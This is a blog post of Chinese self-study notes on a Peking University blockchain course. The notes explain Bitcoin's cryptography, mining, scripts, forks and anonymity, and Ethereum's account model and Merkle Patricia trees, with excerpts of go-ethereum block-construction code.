笔记《区块链技术与应用》公开课-北京大学肖臻
Published:
Note for self-taught blockchain theory. 自学《区块链技术与应用》笔记。
BitCoin比特币
01 密码学原理
1. 哈希
X->H(X)
a. collision resistance -> 防止篡改（无法被证明）
抽屉原理、鸽笼原理：把多于n个的物体放到n个抽屉里，则至少有一个抽屉里的东西不少于两件。
延申1：把多于mn(m乘n)+1（n不为0）个的物体放到n个抽屉里，则至少有一个抽屉里有不少于（m+1）的物体。
延申2：把无数还多件物体放入n个抽屉，则至少有一个抽屉里有无数个物体。
第二抽屉原理：把（mn－1）个物体放入n个抽屉中，其中必有一个抽屉中至多有（m—1）个物体
MD5
b. hiding -> 哈希函数计算单向不可逆
结合ab实现digital commitment（digital equivalent of sealed envelope）
实现时，在X后面拼接随机数哈希，保证分布均匀
c. puzzle friendly -> 无法根据哈希值预测输入落在哪个区间
挖矿过程计算：H(block header)<=target，其中block header包含要计算的随机数
proof of work：只能通过大量计算获得合法随机数
difficult to solve, but easy to verify：只需一次哈希就能验证随机数合法性
SHA-256: Secure Hash Algorithm
2. 签名
开户：在本地创建一个公私钥对
asymmetric encryption algorithm：非对称加密算法
encryption key：密钥
普通的公私钥系统：对方用我的公钥加密，对方发来的信息用我的私钥解密
比特币：用私钥发布交易签名，别人用我的公钥验证
哈希和签名都需要a good source of randomness
一般是先哈希再签名
02 数据结构
1. hash pointers哈希指针
哈希指针保存了一块数据的指针和指向结构体的哈希值
区块链是使用了哈希指针的链表

tamper-evident log：假如中间有数据被篡改，那么后续链表的哈希值就会错误，只需要验证最后一个保存在系统中的哈希值，就可以验证前面的所有数据是否被篡改
不一定要保存所有节点，可以只保存最近的几千个节点。索要上一个区块时，只需要上一个区块的哈希值和当前节点存储的哈希值对比
2. Merkle Tree默克尔树
叶节点是区块，上层节点是哈希的二叉树

Merkle proof：通过block header里的根哈希验证某笔交易是否正确存在区块中
一般组成：block header和block body
移动端设备可能只有block header
proof of membership或proof of inclusion
时间复杂度O(logn)

引申：只计算一侧的哈希，另一侧不计算，会不会带来问题？ 不会，因为有collision resistance
proof of non-membership???
如果把整棵树传过去，时间复杂度为线性O(n)
引入sorted Merkle tree，把叶节点按照哈希值排序。待验证的交易做Merkle proof，如果验证结果正确，说明在两个叶节点之间，不存在待验证的节点。时间复杂度O(logn)
比特币没有做这个功能
03 协议
1. 区块链组成
double spending attack：双花攻击
coinbase tx：铸币交易

一般组成：block header和block body
block header：
- version：协议版本
- hash of previous block header：上一区块头的哈希
- Merkle root hash
- target
- nonce：随机数
block body：
- transaction list

哈希指针指向的是块头
full node、fully validating node：全节点
light node：轻节点
2. 区块发布
账本的内容要取得分布式的共识（distributed consensus）
分布式不可能结论
FLP impossibility result：网络系统异步，无时延上限，只要存在一个faulty，就无法达成共识
CAP Theorem：Consistency、Availability、Partition tolerance三者最多同时满足两个
著名协议：Paxos
比特币中的共识协议
投票？无法确定membership -> 解决：hyperledger联盟链fabric，优质member投票
比特币创建账户非常简单，无法确定membership？解决：根据算力和运气，抢先算出nonce的获得记账权
hash rate
sybil attack：女巫攻击：不停产生大量不同账号，数量过半数可操纵投票权
longest valid chain：最长合法连
forking attack：分支攻击：通过向区块链中插入一个更长的链，使合法交易回滚
获得记账权：

挖矿：争夺记账权
Coinbase transaction：铸币交易：比特币系统中唯一的产生比特币的途径
起始出块奖励50BTC，每21万区块减半，现在6.25BTC
孤儿节点的出块奖励作废，铸币交易不被接受
04 实现
比特币是以交易为基础的账本transaction-based ledger，以太坊是基于账户的账本account-based ledger
1. UTXO
全节点维护一个数据结构UTXO: Unspent Transaction Output，记录没有被花出去的交易的集合，快速检测double spending
要求total inputs == total outputs，或输入略大于输出（原因：打包别人的交易可以获得少量transaction fee）
这是一个查询区块链信息的网址查到的一个区块的信息

下面是一个区块头的数据结构

随机数nonce只有32位，随挖矿难度增加，无法保证只修改这个能满足难度要求

改Merkle root hash可以增加难度，具体改法如下：

铸币交易有一个CoinBase域，可以随便写点什么东西，假如取前几位作为额外的随机值

外层循环改变CoinBase域的值，算出Merkle root hash后，进入内层循环计算nonce

一个交易的例子，左上方是这个交易两个输入，右上方是这个交易两个输出，都会写入UTXO，下面表格列出了total input, total output和transaction fee，下面画红框的是这次交易的输入脚本，需要和上一次交易的输出脚本对接，验证正确性
2. 数学解释
成功概率
Bernoulli trial: a random experiment with binary outcome. （伯努利试验）例子：掷硬币
Bernoulli process: a sequence of independent Bernoulli trials. （伯努利过程）
性质：无记忆性memoryless
试验次数很多，每次实验成功概率极小，用Poisson process泊松过程近似，服从exponential distribution指数分布

从任何时间点截断，概率密度曲线完全相同，意味着努力不会累计，在找到合法nonce之前的努力都是无用功，这种性质叫progress free，避免了赋予算力强的矿工以不成比例的优势
比特币数量
geometric series几何级数
21万*50+21万*25+21万*12.5+…
=21万*50*(1+1/2+1/4+…)
=21万*50*1/(1-1/2)
=2100万
Bitcoin is secured by mining. -> 比特币的机制导致挖矿这一行为保证了其安全性
动力减少？并不会，还有交易费
3. 恶意节点
伪造付款方
不可行，因为不知道付款方的私钥，无法获得合法签名
分叉插入有害区块
不可行，诚实的节点会沿着正确的链拓展
分叉插入带有回滚交易的区块实现双花

区块链是一种irrevocable ledger不可篡改的账本，意思是经过越多的confirmation后，之前的区块能被篡改的概率呈指数级下降
比特币系统默认经过6个confirmation即1个小时，确定一个交易的合法性
zero confirmation零确认：在写入区块前，交易平台直接或间接验证这笔交易的合法性（签名和来源），不需要等待这笔交易写入某一区块
可行的原因：①区块链上诚实的节点会优先扩展最先接收到的正确的区块所在的分支。②现实中电商平台接单到发货需要时间，足可以验证交易的合法性
故意不写入合法交易
不可行，即使在一段时间内不写入某合法交易，总有诚实的节点会写入。某些交易在高峰时段没被写入区块是区块链的特性
Selfish mining：挖完藏着不发布攒着欸就是玩
风险极大。首先要保证算力比别人强，但是哥们你算力都比别人强了为什么不直接算呢？其次要保证计算恶意区块的算力比计算正常区块的算力大，才有更大可能优先算出恶意区块

假如有人优先算出了B区块但没发布，分两种情况：①A还未发布：可以继续算，这样B会越来越长，等到一定长度直接发布。②A已经发布：最佳策略是立刻发布B区块和A区块竞争，这时B变成最长合法链的可能性尚存
Boycott：封锁某一账户的相关交易
检测到有某账户交易的区块上链后，立刻发动分叉攻击
05 网络
1. The BitCoin Network比特币网络：
application layer应用层：BitCoin Block Chain
network layer网络层：P2P Overlay Network
没有super node或master node，但是需要先和seed node种子节点用TCP联系
设计原则：simple，robust but not efficient
节点传播方式：flooding，best effort尽力而为
维护一个未写入交易的集合，把新加入的交易传播一次，如果收到新的交易，就把旧的交易删掉
限制大小：1M
06 挖矿难度
1. 计算公式
挖矿要算的nonce符合下列公式： \(H(block header)\leq target\) 用到SHA-256算法，有256位的计算空间
挖矿的难度调整公式如下： \(difficulty=\frac{difficulty\_1\_target}{target}\) 其中，difficulty_1_target是难度为1时的target值
2. 原因
提高难度的原因：把出块时间维持在10分钟左右
太快？容易出现多分叉，这时诚实节点的算力会被分散，恶意节点分叉攻击的算力更集中，更容易完成攻击

以太坊的出块时间为15秒，新的ghost协议，给每个orphan block以uncle reward
3. 如何调整
每2016个区块调整一下难度： \(\frac{2016\times10min}{60min\times24}=14days\) 通过改变target调整难度，公式如下： \(target=target\times\frac{actual time}{expected time}\) 其中，actual time是挖出过去2016个区块所用的时间，expected time=2016*10分钟
target和实际时间成正比，实际时间越大，说明挖矿难度越大，调高target降低难度
最大8个星期，最小0.5星期
调整程序在比特币系统代码中写死，但是代码开源，恶意节点故意不调整？header中的nBits域会被验证，不调整验证失败不会上链
另一种调整难度的公式： \(difficulty=difficulty\times\frac{expected time}{actual time}\) 与调整target的公式分子分母相反
07 挖矿
1. 全节点
- 一直在线
- 在本地硬盘上维护完整的区块链信息在内存里维护UTXO集合，以便快速检验交易的正确性
- 监听比特币网络上的交易信息，验证每个交易的合法性
- 决定哪些交易会被打包到区块里
- 监听别的矿工挖出来的区块，验证其合法性
- 挖矿
- 决定沿着哪条链挖下去?
- 当出现等长的分叉的时候，选择哪一个分叉?
2. 轻节点
- 不是一直在线
- 不用保存整个区块链，只要保存每个区块的块头
- 不用保存全部交易，只保存与自己相关的交易
- 无法检验大多数交易的合法性，只能检验与自己相关的那些交易的合法性
- 无法检测网上发布的区块的正确性
- 可以验证挖矿的难度
- 只能检测哪个是最长链，不知道哪个是最长合法链
3. 一些情况
挖着挖着发现有新的区块发布了怎么办？
停止当前的挖矿，重新组装区块重新挖，因为memoryless或progress free
保证安全？
①密码学保证：私钥保证签名无法伪造
②共识机制：保证交易是合法的
4. 设备
CPU -> GPU -> ASIC: Application Specific Integrated Circuit
GPU擅于计算浮点，对于比特币里的整数运算有一点大材小用
ASIC是专门用来挖矿的芯片，解决计算的mining puzzle，一些ASIC为了适配多种币，采用merged mining策略
矿机厂商有算力垄断的趋势？设计新的Alternative mining puzzle，让通用计算机也能参与挖矿
矿池
由一个pool manager领导一个全节点，将其分发到若干miner，miner只负责用ASIC计算哈希，得到合法nonce后汇报到pool manager处组装发布

矿池的出现解决了miner收入不稳定的问题，如何分配奖励？miner在挖矿过程中，挖到almost valid block（降低target后的区块）作为一个share提交矿主，作为工作量证明
miner可能私自提交吗？不可能，矿主事先在header里写好了自己作为收款人，调整CoinBase域后根据nonce范围给miner下发任务。因为已经写好了收款人，这时矿工算好nonce再修改收款人会改变哈希，与Merkle root hash不符；如果一开始就按照自己作为收款人挖矿，不会被矿主接受，相当于自己单干
miner故意不提交？可能是对手矿池派来的间谍
分散的矿池没有危险吗？不是，有可能几个矿池联合，或降低管理费吸引更多矿工加入。拥有51%算力更有可能发动分叉攻击
on demand computing? on demand mining!
5. 51%算力
更有可能成功发动分叉攻击
含恶意区块的链增长速度总是比其他链要快，因此更有可能成功
更有可能成功发动针对某一账户的封锁Boycott
检测到有某账户交易的区块上链后，立刻发动分叉攻击
不可能盗币
因为不能伪造私钥
更有可能在短时间内召集大量矿工形成超强算力
08 脚本
1. 交易结构
这是一个交易实例，由一个输入和两个输出组成，一个输出已经花了一个输出还没花。这个区块经过了23个确认。下面是输入脚本和两个交易的输出脚本

这是交易的宏观信息metadata，txid是交易的id，hash是交易的哈希，version是版本号，size是交易的大小，locktime是交易生效的时间，0表示立刻生效，非0表示需要隔几个区块生效，vin和vout是输入输出信息，blockhash是交易所在区块的哈希，confirmations是经过了几个确认，time是交易产生的时间，blocktime是区块产生的时间，这两个时间是从很早之前到现在的秒数

输入是一个数组，表示id为txid的交易第vout个输出作为本次交易的一个输入，scriptSig是脚本签名

输出也是一个数组，value是转出的比特币数目，单位是比特币，单位也可以是SATOSHI（聪），1比特币=1,0000,0000聪。n是vout在输出中的位置。scriptPubKey是输出脚本，asm是脚本操作，reqSigs是需要的签名数量，type是输出的类型，address是输出的地址

2. 脚本细节
输入脚本放在前面，输出脚本放在后面。早期两个脚本拼接在一起执行，后面把两个脚本分开执行。脚本的每一个步骤都不报错才算通过，所有交易都通过才算合法。脚本语言只支持栈操作，不支持循环等操作（但同时避免了停机问题），不是图灵完备的。比特币脚本语言在密码学上对一些特定场景做了优化，比如CHECKMULTISIG，只需要一条语句就能完成复杂的验证

以下的操作，名称前都要加上OP_，比如OP_DUP或OP_CHECKSIG
P2PK
输入脚本把签名压入栈，输出脚本把公钥压入栈，两者检验

栈：
底
底，Sig
底，Sig，PubKey
底（checksig返回True或False）
P2PKH
区别于直接给出公钥的转账方式，这里是给出公钥的哈希

栈：
底
底，Sig
底，Sig，PubKey
底，Sig，PubKey，PubKey（DUP操作给栈顶元素复制一份）
底，Sig，PubKey，PubKeyHash（HASH160操作给栈顶元素取哈希）
底，Sig，PubKey，PubKeyHash（花钱的交易给出的钱来源公钥哈希），PubKeyHash（之前把钱给到花钱账户的那个公钥哈希）
底，Sig，PubKey（EQUALVERIFY比较两个公钥哈希是否一致）
底（checksig返回True或False）
P2SH
上一次交易的输出给出脚本的哈希，这次交易的输入提供一个redeem script赎回脚本
- input script要给出一些签名(数目不定)及一段序列化的redeemScript。验证分如下两步:
- 验证序列化的redeemScript是否与output script中的哈希值匹配?
- 反序列化并执行redeemScript，验证input script中给出的签名是否正确?
redeemScript的形式：
- P2PK形式
- P2PKH形式
- 多重签名形式

举例：用P2SH实现P2PK
输入输出脚本和赎回脚本内容

第一阶段：
主要验证了赎回脚本的正确性

栈：
底
底，Sig
底，Sig，seriRS（serialized RedeemScript）
底，Sig，RSH（RedeemScriptHash）
底，Sig，RSH（输入脚本），RSH（输出脚本）
底，Sig（执行EQUAL后两个RSH出栈）
第二阶段：
脚本内容的执行，这一阶段节点自己反序列化并执行赎回脚本

栈：
底，Sig
底，Sig，PubKey
底（checksig返回True或False）
P2SH最初并未加入比特币系统，后面通过软分叉方式加入，为支持多重签名
多重签名
需要N个公钥中的至少M个通过
防止私钥泄露或丢失

脚本执行
由于软件Bug，输入脚本一开始需要多输入一个没有用的元素

栈：
底
底，False
底，False，Sig_1
底，False，Sig_1，Sig_2
底，False，Sig_1，Sig_2，2
底，False，Sig_1，Sig_2，2，pubKey_1
底，False，Sig_1，Sig_2，2，pubKey_1，pubKey_2
底，False，Sig_1，Sig_2，2，pubKey_1，pubKey_2，pubKey_3
底，False，Sig_1，Sig_2，2，pubKey_1，pubKey_2，pubKey_3，3
底（checkmultisig返回True或False）
不便之处
付款人（比如电商平台的消费者）需要给出所有公钥，对于不同平台多重签名规则不同，N和M不同收款人哈希也不同，对付款人造成麻烦
用P2SH实现多重签名
将收款人公钥和多重签名规则写到输入脚本的赎回脚本里，将多重签名从输出脚本转移到输入脚本，用户只需要指定不同赎回脚本的哈希就可以完成不同的多重签名

脚本执行
第一阶段：输入脚本的M个签名入栈，输入脚本的赎回脚本入栈取哈希，和输出脚本的赎回脚本哈希对比

栈：
底
底，False
底，False，Sig_1
底，False，Sig_1，Sig_2
底，False，Sig_1，Sig_2，seriRS（serialized RedeemScript）
底，False，Sig_1，Sig_2，RSH（RedeemScriptHash）
底，False，Sig_1，Sig_2，RSH（输入脚本），RSH（输出脚本）
底，False，Sig_1，Sig_2（执行EQUAL后两个RSH出栈）
第二阶段：执行由节点反序列化的赎回脚本

底，False，Sig_1，Sig_2
底，False，Sig_1，Sig_2，2
底，False，Sig_1，Sig_2，2，pubKey_1
底，False，Sig_1，Sig_2，2，pubKey_1，pubKey_2
底，False，Sig_1，Sig_2，2，pubKey_1，pubKey_2，pubKey_3
底，False，Sig_1，Sig_2，2，pubKey_1，pubKey_2，pubKey_3，3
底（checkmultisig返回True或False）
Proof of Burn
执行到RETURN语句时，程序报错，后续语句不会被执行
用处：①销毁比特币，换取AlternativeCoin（AltCoin，即其他小币）②用较小花费向区块链中写入信息，比如知识产权的哈希，在知识公布后需要验证的时候，取哈希并和链上的内容做对比
CoinBase域也可以写入内容，但是只有出块时才能写，不是所有人都能写入

例1
铸币交易，第一个转出交易是正常的，第二个就纯为了往里写点东西

例2
普通的转账交易，转出的比特币作为手续费给了挖矿的矿工

遇到有RETURN的交易，就没必要保存到UTXO中，对全节点友好
09 分叉
- state fork
- forking attack（deliberate fork）
- protocol fork
- hard fork
- soft fork
1. hard fork硬分叉
由于比特币是分布式系统，修改比特币协议需要所有节点软件更新，但是有一些节点不希望更新，并且认为更新的内容非法，就会导致硬分叉（新的认旧的，旧的不认新的）
特点：必须所有节点都更新软件才不会出现永久性分叉
举例
block size limit = 1M有些人认为太小，妨碍了比特币的throughput吞吐量
1M=1,000,000/250byte per tx=4000tx
4000tx/(60s*10min)=7tx per sec
提出从1M改为4M，假设大部分算力都更新了软件，少部分算力没更新

由于没更新的节点不承认新的大区块，所以会在自己的链上不断产生小区块。更新的节点虽然承认小区块，但是因为占据更多的算力，所以会在新的链上产生大区块。两条链平行地增长，产生分裂
典型案例：以太坊社区为归还黑客盗走的币，硬分叉了一个链ETH，原来的链变为ETC
为防止以下可能：
①在分叉前，由A向B转一笔钱；分叉后，B可以双花，两种币各花一次
②某一叉上，B给C转钱后，分别在两条链上同时由C转给B
增加新的域chainID，从此每条链各自独立，互不干扰
2. soft fork软分叉
更新后，新节点由于不承认旧节点挖出的区块且新节点拥有大部分算力，倒逼旧节点软件更新，否则旧节点会始终无法上链（旧的认新的，新的不认旧的）
特点：可能出现临时分叉，但不会出现永久性分叉
举例1
block size limit从1M改为0.5M，假设大部分算力都更新了软件，少部分算力没更新

举例2
CoinBase域中添加UTXO集合的根哈希值
CoinBase域的前8位可以作为extra nonce以增加难度，使搜索空间从2^32变为2^96，但是后面还可以跟内容
不同于Merkle proof允许轻节点证明交易是否包含在区块里，轻节点无法证明全节点返回根据UTXO计算的余额是否正确，因此有人提出在CoinBase域后面接上UTXO的根哈希，这样可以通过Merkle proof同时证明两件事
典型案例：P2SH: Pay to Script Hash
旧节点认可哈希的验证，但新节点不认可旧节点没有赎回脚本的区块
10 问题与讨论
1. 转账时，接收者不在线会发生什么？
只需要知道接收者的地址，与接收者在不在线没有关系
2. 全节点接收到的转账申请，是转到全新的闻所未闻的账户？
可能，只有从这个账户转出钱才需要通知所有人
3. 私钥丢失了怎么办？
凉拌。没有任何办法。除非事先把私钥保存在中心化的交易所里，但是交易所并非完全安全（Mt. Gox）
4. 私钥泄露了怎么办？
尽快把所有钱转到另一个账户上
5. 转账时写错地址怎么办？
继续凉拌。对于Proof of Burn，如果把钱转到一个不知道私钥的公钥地址，那么这个交易会一直留在UTXO里，有一定影响
6. Proof of Burn的OP_RETURN会报错，那它是如何写入区块链的？
验证区块正确性需要当前交易的输入脚本和前面交易的输出脚本都通过才行，但是OP_RETURN是写在当前交易的输出脚本里的，在验证时不会被执行。除非有新的交易要花这个钱，才会执行这个输出脚本
7. 矿工偷nonce？
不会，CoinBase tx中有收款人地址，改哪个都影响根哈希值
8. 交易费该给哪个矿工如何知道？
不需要事先知道。交易费=total inputs - total outputs，哪个矿工挖出矿就可以收走差额
11 匿名性anonymity
1. 定义
anonymity？pseudonymity！
银行如果不进行实名制，匿名性比比特币要好，因为银行交易信息是不公开的，比特币是全部公开的
区块链是公开且不可篡改的，对隐私的保护是灾难性的
2. 隐私泄露
交易行为会将一系列比特币账户关联到一起
关联输入地址和输出地址
Inputs：addr1（4），addr2（5）
Outputs：addr3（6），addr4（3）
在这个例子中，消费者转钱给商家，找钱回到另一个地址，容易关联addr1和addr2到addr4，addr3是商家地址
账户关联现实中的人
比特币与现实世界发生交互时
比特币购买现实物品？不好，①延迟高，要等1个小时。②手续费高
举例1：中本聪一直没有暴露身份
举例2：Silk Road：eBay for illegal drugs，使用了TOR洋葱路由和匿名邮寄
hide your identity from whom？
3. 提高匿名性的方法
application layer
network layer
网络层：多路径转发，隐藏发送者身份
应用层：coin mixing把币集中起来
4. 零知识证明
零知识证明是指一方(证明者)向另一方(验证者)证明一个陈述是正确的，而无需透露除该陈述是正确的外的任何信息。
同态隐藏
- 如果x,y不同，那么它们的加密函数值E(x)和E(y)也不相同。
- 推论：如果E(x)==E(y)，那么x一定等于y
- 给定E(x)的值，很难反推出x的值。
- 给定E(x)和E(y)的值，我们可以很容易地计算出某些关于x,y的加密函数值。
- -同态加法:通过E(x)和E(y)计算出E(x+y)的值
- -同态乘法:通过E(x)和E(y)计算出E(xy)的值
- -扩展到多项式
举例
Alice想要向Bob证明她知道一组数x和y使得x+y=7，同时不让Bob知道x和y的具体数值？
简单解法
- Alice把E(x)和E(y)的数值发给Bob（性质2）
- Bob通过收到的E(x)和E(y)计算出E(x+y)的值（利用了性质3）
- Bob同时计算E(7)的值，如果E(x+y)=E(7)，那么验证通过，否则验证失败。（性质1）
盲签方法
- 用户A提供SerialNum，银行在不知道SerialNum的情况下返回签名Token，减少A的存款
- 用户A把SerialNum和Token交给B完成交易
- 用户B拿SerialNum和Token给银行验证，银行验证通过，增加B的存款
- 银行无法把A和B联系起来。
- 中心化
零币和零钞
- 零币和零钞在协议层就融合了匿名化处理，其匿名属性来自密码学保证。
- 零币(zerocoin)系统中存在基础币和零币，通过基础币和零币的来回转换，消除旧地址和新地址的关联性，其原理类似于混币服务
- 零钞(zerocash)系统使用zk-SNARKs协议，不依赖一种基础币，区块链中只记录交易的存在性和矿工用来验证系统正常运行所需要关键属性的证明。区块链上既不显示交易地址也不显示交易金额，所有交易通过零知识验证的方式进行。
- 小众且并不能解决匿名性
12 比特币总结
1. 区块链中的哈希指针如何传播？
blockheader里只有哈希没有指针，全节点维护一个键值对的levelDB数据库，键是哈希值是全节点
2. 拆分私钥？
截断私钥降低了账户安全性，计算空间从2^256降低到2^128，比较容易猜出来
多个人建议用多重签名
3. 分布式共识？
模型认为理论上达不成共识，但是线下操作的空间极大。不要被限制住想象力
4. 稀缺性？
比特币总量恒定，不具有通货膨胀属性
5. 量子计算？
量子计算首先冲击的是传统金融业而不是比特币
公钥可以从私钥中推导出来，但是私钥不能从公钥中推导出来
比特币用的是公钥的哈希，量子计算即使能够从公钥推导出私钥，也不能从公钥的哈希中推导出公钥
取哈希的算法SHA-256是有损失的加密，无法反推原先的信息
ETH以太坊
01 概述
作者：Vitalik
1. 对比
BitCoin比特币
- 比特币：区块链1.0
- mining puzzle比拼算力，用ASIC芯片挖矿，与去中心化的理念渐行渐远
- proof of work工作量证明
- decentralized currency去中心化的货币
- 最小单位：Satoshi聪
Ethereum以太坊
- 以太坊：区块链2.0
- memory hard mining puzzle，天然的ASIC resistance
- proof of stake权益证明
- decentralized contract去中心化的合约
- 最小单位：Wei伟
- 支持smart contract智能合约
fiat currency法币
02 账户
1. 比特币系统的拧巴性
比特币是基于交易的账本
一般银行是在存钱时检验钱的来源，BTC是在花钱时检验钱的来源
转帐必须全部转出
从一个账户转钱给商家，付完钱后剩下的钱必须转回自己的账户或新的账户，否则会被当作交易费给矿工

2. account-based ledger基于账户的账本
不需要指明钱的来源，也不需要把剩余的钱转入新的地址，剩余的钱回到账户

好处
对double spending attack有天然的防御力，花两次直接从账户中扣两次钱
坏处：replay attack重放攻击
double spending attack是花钱的人不诚实，replay attack是收钱的人不诚实
解决办法：每次交易添加一个nonce交易次数，初始为0，每交易一次+1，与交易一起封装并签名
账户类型
externally owned account外部账户：普通的公私钥对账户，维护了balance和nonce
smart contract account合约账户：除了balance和nonce，还有code代码和storage存储维护了一些变量，合约账户不能主动发起交易，只能由外部账户调用合约账户，合约账户可以调用另一个合约账户，创建合约账户时返回地址，用地址访问合约账户
目的：为了维护合约身份的稳定性
financial derivative金融衍生品
03 状态树
1. 从地址到状态的映射
addr -> state
ETH地址有160bits位，一般表示为40个16进制数
维护一个哈希表？无法做Merkle proof
把哈希表里的元素做成Merkle Tree？不行，①比特币一般4000个以下的交易，以太坊账户数高出很多数量级；②比特币Merkle Tree计算完成不需要改变，以太坊每15秒就要改变；③以太坊如果Merkle Tree，即使只改一小部分也很难，因为Merkle Tree没有提供快速查找和更新的操作；④比特币中只有获得记账权的节点发布的区块才会被认可，是唯一的，以太坊如果不是sorted Merkle Tree，查找non-membership是线性的，每个节点维护的树是不唯一的
2. Trie树
retrieval检索

优点：
- branching factor：分叉数目取决于key的取值范围
- Trie的查找效率取决于key的长度
- Trie不会出现碰撞
- 输入不变，顺序不影响Trie树结构
- Trie更新的局部性好
缺点：
- 存储中间节点有浪费
- 稀疏的key会很长

3. Patricia Tree压缩前缀树

路径压缩效果好的使用场景：键值分布稀疏
disintermediation去中间商

以太坊的地址非常稀疏，有2^160的空间
4. Merkle Patricia Tree（MPT）
把Patricia tree的指针换成哈希指针，最上维护一个根哈希值
作用：
- 防止篡改
- Merkle proof证明账户上的余额
- 假设一个不存在的分支存在发给Merkle proof证明某个分支不存在
modified MPT

下面是一个例子，树中大部分节点没有改变，指向原来的位置，只有一部分改变
每一个MPT是由很多小MPT组成的

每次更新都新建一个MPT，保留历史状态，只不过大部分指向之前存在的树节点，少部分修改
为什么？以太坊的出块时间是15秒，链上临时分叉是常态，rollback回滚需要回到各种代码和智能合约执行前的状态，由于以太坊的脚本语言是图灵完备的，很难像比特币那样推算出前一个状态，为了回滚必须保存历史状态
5. 结构
块头

- ParentHash：指向上一个块头的哈希指针
- UncleHash：指向上一个叔块块头的哈希指针，叔块可能在很多代之前
- CoinBase：铸币交易给到的账户
- Root：状态树根哈希
- TxHash：交易树根哈希
- ReceiptHash：收据树根哈希
- Bloom：Bloom Filter，与收据树相关，提供高效查询符合某种条件的交易的执行结果
- Difficulty，Number：挖矿难度相关
- GasLimit：区块里所有交易能消耗的汽油费的上限，为了限制发布区块消耗资源的大小
- 区块的GasLimit可以在发布区块时上调或下调1/1024
- GasUsed：区块里所有交易所消耗的汽油费加在一起
- Time：区块产生大致时间
- Extra：任意写的信息
- MixDigest：根据Nonce算出的哈希值
- Nonce：要计算的随机数
区块

- header：指向块头的指针
- uncles：叔叔区块数组
- transactions：交易列表
发不出去的内容：

6. Recursive Length Prefix（RLP）
一种序列化存储键值对value的方法，存储为nested array of bytes
类似的：protocol buffer
04 交易树和收据树
交易树：区块链中的所有交易组织成一棵MPT
收据树：区块链中的所有智能合约的执行结果组织成一棵MPT，方便快速查询
交易树和收据树只把当前区块的交易打包，状态树把所有区块账户的状态打包
1. bloom filter布隆过滤器
对集合中所有元素，生成一个128位的摘要，如果集合中存在某一个元素，就把相应位置的0改为1
会出现哈希碰撞
可能出现false positive，一定不会出现false negative，即显示存在可能不存在，显示不存在一定不存在
不支持删除操作
把一个位置的1改为0，可能有其他的元素映射到这个位置，这样做就是错误的
生成过程
每个交易完成后生成一个收据，包含一个bloom filter，记录交易的类型和地址等信息。发布的区块块头里有总的bloom filter，是区块里发布所有交易的bloom filte的并集
查找过程
比如查找过去十天包含某智能合约的交易，先查找块头的bloom filter里是否包含，如果没有下一个，如果有再查找收据树中是否包含对应bloom filter的交易
好处是快速过滤掉大量无关区块
2. transaction-driven state machine交易驱动的状态机
状态是状态树中的所有内容，动作是区块中的交易
转账给未知账户？
有可能。账户是自己创建的，只有产生交易时才会进入状态树
把每个区块的状态树改为只记录与交易有关的状态，而不是把所有状态都打包？
不行。比如：A -> B (10ETH)
需要查找A的账户状态，假如A账户很长时间没有操作，就要找很多区块。更大的问题是如果B账户是新建的账户，就要一直向前追溯到创世纪块
3. 具体实现
NewBlock
在block.go中，NewBlock函数里面调用了DeriveSha得到交易树和收据树的根哈希值
func NewBlock(header *Header, body *Body, receipts []*Receipt, hasher TrieHasher) *Block {
if body == nil {
body = &Body{}
}
var (
b = NewBlockWithHeader(header)
txs = body.Transactions
uncles = body.Uncles
withdrawals = body.Withdrawals
)
if len(txs) == 0 {
b.header.TxHash = EmptyTxsHash
} else {
// 这里得到交易树的根哈希值
b.header.TxHash = DeriveSha(Transactions(txs), hasher)
b.transactions = make(Transactions, len(txs))
copy(b.transactions, txs)
}
if len(receipts) == 0 {
b.header.ReceiptHash = EmptyReceiptsHash
} else {
// 这里得到收据树的根哈希值
b.header.ReceiptHash = DeriveSha(Receipts(receipts), hasher)
// Receipts must go through MakeReceipt to calculate the receipt's bloom
// already. Merge the receipt's bloom together instead of recalculating
// everything.
b.header.Bloom = MergeBloom(receipts)
}
if len(uncles) == 0 {
b.header.UncleHash = EmptyUncleHash
} else {
b.header.UncleHash = CalcUncleHash(uncles)
b.uncles = make([]*Header, len(uncles))
for i := range uncles {
b.uncles[i] = CopyHeader(uncles[i])
}
}
if withdrawals == nil {
b.header.WithdrawalsHash = nil
} else if len(withdrawals) == 0 {
b.header.WithdrawalsHash = &EmptyWithdrawalsHash
b.withdrawals = Withdrawals{}
} else {
hash := DeriveSha(Withdrawals(withdrawals), hasher)
b.header.WithdrawalsHash = &hash
b.withdrawals = slices.Clone(withdrawals)
}
return b
}
首先，创建交易树，计算根哈希值，创建交易列表
if len(txs) == 0 {
b.header.TxHash = EmptyTxsHash
} else {
// 这里得到交易树的根哈希值
b.header.TxHash = DeriveSha(Transactions(txs), hasher)
// 创建交易列表
b.transactions = make(Transactions, len(txs))
copy(b.transactions, txs)
}
然后，创建收据树，计算根哈希值，创建bloom filter
if len(receipts) == 0 {
b.header.ReceiptHash = EmptyReceiptsHash
} else {
// 这里得到收据树的根哈希值
b.header.ReceiptHash = DeriveSha(Receipts(receipts), hasher)
// Receipts must go through MakeReceipt to calculate the receipt's bloom
// already. Merge the receipt's bloom together instead of recalculating
// everything.
b.header.Bloom = MergeBloom(receipts)
}
计算叔父区块的哈希值，构建叔父数组
if len(uncles) == 0 {
b.header.UncleHash = EmptyUncleHash
} else {
b.header.UncleHash = CalcUncleHash(uncles)
b.uncles = make([]*Header, len(uncles))
for i := range uncles {
b.uncles[i] = CopyHeader(uncles[i])
}
}
DeriveSha
在hashing.go中，DeriveSha函数把Transactions和Receipts建为trie（？，最新的代码貌似不是在这里直接传递trie）
// DeriveSha creates the tree hashes of transactions, receipts, and withdrawals in a block header.
func DeriveSha(list DerivableList, hasher TrieHasher) common.Hash {
hasher.Reset()
valueBuf := encodeBufferPool.Get().(*bytes.Buffer)
defer encodeBufferPool.Put(valueBuf)
// StackTrie requires values to be inserted in increasing hash order, which is not the
// order that `list` provides hashes in. This insertion sequence ensures that the
// order is correct.
//
// The error returned by hasher is omitted because hasher will produce an incorrect
// hash in case any error occurs.
var indexBuf []byte
for i := 1; i < list.Len() && i <= 0x7f; i++ {
indexBuf = rlp.AppendUint64(indexBuf[:0], uint64(i))
value := encodeForDerive(list, i, valueBuf)
hasher.Update(indexBuf, value)
}
if list.Len() > 0 {
indexBuf = rlp.AppendUint64(indexBuf[:0], 0)
value := encodeForDerive(list, 0, valueBuf)
hasher.Update(indexBuf, value)
}
for i := 0x80; i < list.Len(); i++ {
indexBuf = rlp.AppendUint64(indexBuf[:0], uint64(i))
value := encodeForDerive(list, i, valueBuf)
hasher.Update(indexBuf, value)
}
return hasher.Hash()
}
在trie.go里，trie的数据结构是MPT。以太坊中的三棵树都是trie
